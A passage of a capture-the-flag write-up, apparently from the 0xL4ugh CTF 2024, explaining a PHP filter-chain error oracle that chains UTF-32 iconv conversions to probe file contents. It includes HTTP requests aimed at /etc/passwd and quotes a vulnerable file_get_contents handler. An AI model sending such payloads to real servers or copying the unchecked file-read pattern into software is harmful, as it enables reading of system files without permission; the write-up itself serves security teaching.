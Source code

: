 As you can see, the output is 4 times bigger than before the conversion. This is because UTF-32 will encode each character with a fixed 4 bytes.

Now, what if we keep repeat the conversion? Like from the `latin1` charset to `UTF-32`, to `UTF-32`, to `UTF-32`, and so on.

Turns out, **the string will grow so large that it'll exceed the memory limit and cause the PHP process to stop and return HTTP status code 500**! However, if the file that we point to is empty or doesn't exist, the PHP process won't stop and no HTTP status code 500.

Hence, we can utilize that as an oracle to test!

Let's try this!

**8 filter chains:**
```http
POST /user_photo.php HTTP/1.1
Host: 20.55.48.101

img=php://filter/convert.latin1|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32/resource=/etc/passwd
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240212135850.png)

**9 filter chains:**
```http
POST /user_photo.php HTTP/1.1
Host: 20.55.48.101

img=php://filter/convert.latin1|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32|convert.iconv.latin1.UTF-32/resource=/etc/passwd
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240212135903.png)

Hmm... No HTTP status code 500... But! **The "Not Allow" output is gone when we have 9 filter chains**!

**This is because the if else statement after `file_get_contents()` is stopped processing!**
```php
if(!empty($_POST['img']))
{
    $name=$_POST['img'];
    $content=file_get_contents($name);
    if(bin2hex(substr($content,1,3))==="504e47") // PNG magic bytes
    {
        echo "<img src=data:base64,".base64_encode($content);
    }
    else
    {
        echo "Not allowed";
    }
}
```
